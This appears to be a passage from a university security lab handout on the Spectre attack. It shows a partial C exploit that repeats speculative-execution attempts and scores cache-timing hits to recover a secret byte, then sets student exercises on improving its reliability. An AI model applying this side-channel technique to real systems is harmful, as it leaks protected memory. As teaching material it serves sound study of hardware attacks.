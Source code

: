 \begin{lstlisting}[caption=\texttt{SpectreAttackImproved.c}]
static int scores[256];

void reloadSideChannelImproved()
{
  ......
  for (i = 0; i < 256; i++) {
     ......
     if (time2 <= CACHE_HIT_THRESHOLD)
        scores[i]++; /* if cache hit, add 1 for this value */
  }
}

void spectreAttack(size_t index_beyond)
{
  ... omitted: same as that in SpectreAttack.c ...
}

int main() {
  int i;
  uint8_t s;
  size_t  index_beyond = (size_t)(secret-(char*)buffer);

  flushSideChannel();
  for(i=0;i<256; i++) scores[i]=0;

  for (i = 0; i < 1000; i++) {
    printf("*****\n");                 (*@\ding{192}@*)
    spectreAttack(index_beyond);
    usleep(10);                        (*@\ding{193}@*)
    reloadSideChannelImproved();
  }

  int max = 0;                     
  for (i = 0; i < 256; i++){
   if(scores[max] < scores[i])
     max = i;
  }

  printf("Reading secret value at index %ld\n", index_beyond);
  printf("The  secret value is %d(%c)\n", max, max);
  printf("The number of hits is %d\n", scores[max]);
  return (0);
}
\end{lstlisting}

\paragraph{Your tasks.} Please compile and run \texttt{SpectreAttackImproved.c},
and do the following tasks:

\begin{itemize}
  \item You may observe that when running the code above, 
        the one with the highest score is very likely to be 
        \texttt{scores[0]}. Please figure out why, and fix the code above,
        so the actual secret value (which is not zero) will be printed out. 
	
  \item Line~ seems useless, but from our experience on SEED Ubuntu 20.04, without this line,
        the attack will not work. On the SEED Ubuntu 16.04 VM, there is no need for this line. 
	We have not figured out the exact reason yet, so if you can, your instructor will
	likely give you bonus points. 
	Please run the program with and without this line, and describe your observations. 

  \item Line~ causes the program to sleep for 10 microseconds. How long the program
        sleeps does affect the success rate of the attack. Please try several other values,
	and describe your observations. 
\end{itemize}
 




